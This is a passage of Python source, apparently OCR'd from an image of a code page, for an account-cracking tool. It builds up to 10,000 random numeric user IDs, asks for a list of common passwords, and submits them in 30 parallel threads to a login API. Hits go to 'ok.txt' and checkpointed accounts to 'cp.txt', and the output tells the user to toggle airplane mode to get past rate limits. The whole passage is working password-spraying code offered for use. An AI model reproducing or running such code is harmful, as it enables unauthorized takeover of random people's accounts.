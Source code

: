 				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))

				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))

				if len(listpass)<=5:

					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))

				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))

				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))

				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(R))

				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))

				for user in self.id:

					coeg.submit(self.api, user, listpass.split(","))

			exit("\n\n%s [#] CRACK COMPLETE..."%(G))

		except Exception as e:exit(str(e))

	def old4_6(self):

		x = 1111111

		xx = 9999999

		idx = input("%s [+] ENTER A DIGIT (10): %s"%(Y,G))

		#idx = random.choice(["1", "2", "3", "4", "5", "6", "7", "8", "9"])

		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(10000 MAX): \033[0;92m"))

		if (limit)>10000:

			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))

		try:

			for n in range(limit):

				_ = random.randint(x,xx)

				__ = idx

				self.id.append(__+str(_))

			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 

			with ThreadPoolExecutor(max_workers=30) as coeg:

				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))

				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G)) 

				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))

				if len(listpass)<=5:

					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))

				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
